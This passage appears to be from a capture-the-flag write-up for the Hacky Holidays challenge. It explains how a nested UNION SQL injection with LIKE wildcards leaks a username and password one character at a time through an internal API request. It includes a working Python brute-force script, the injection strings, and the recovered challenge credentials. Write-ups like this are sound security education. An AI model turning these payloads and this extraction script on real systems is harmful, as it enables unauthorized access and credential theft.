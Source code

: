 ```sql
SELECT user FROM table_name WHERE user LIKE '<user_input>'
```

And I can see the issue with this, the problem is that now if user input is `a%` it might just return `TRUE`. To try this I modified my query in my script.

```python
import requests
from bs4 import BeautifulSoup

HOST = "https://hackyholidays.h1ctf.com"
hash_URL = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-8436%27%20UNION%20SELECT%20"1%27%20UNION%20SELECT%20%27rad.jpg%27,1,%27../api/user?username={}%%27%20--%20-",%2712%27,1--%20-"

strings = "0123456789abcdefghijklmnopqrstuvwxyz_"

for endpoint in strings:
    r = requests.get(hash_URL.format(endpoint.strip()))
    soup = BeautifulSoup(r.content, "html.parser")
    next_url = soup.findAll("img", {"class": "img-responsive"})
    if next_url:
        new_url = HOST + next_url[-1]["src"]
        nr = requests.get(new_url)
        if nr.content != "Expected HTTP status 200, Received: 204":
            print(endpoint, "--", new_url)
```

P.S - This script doesn't work recursively so it finds one character and then I would add that character and rerun the script. At this point I was loosing my mind and didn't wanted to miss anything so I decided to go slow :)

Major change to notice in this is the query:

```
-8436' UNION SELECT "1' UNION SELECT 'rad.jpg',1,'../api/user?username={}%' -- -",'12',1-- -
```

With the help of this script I found one character at a time, the username was `grinchadmin` and in the similar way I found the password. The change in the query was just a bit:

```
-8436' UNION SELECT "1' UNION SELECT 'rad.jpg',1,'../api/user?username=grinchadmin%26password={}%' -- -",'12',1-- -
```

one character at a time I found the password i.e `s4nt4sucks`

Using these credentials I logged in to the attack box(https://hackyholidays.h1ctf.com/attack-box/login)

{F1129473}

Thanks to @neolex @mcipekci @xEHLE and every one who gave hint for this challenge I don't think I could have done this alone.

# Flag 12
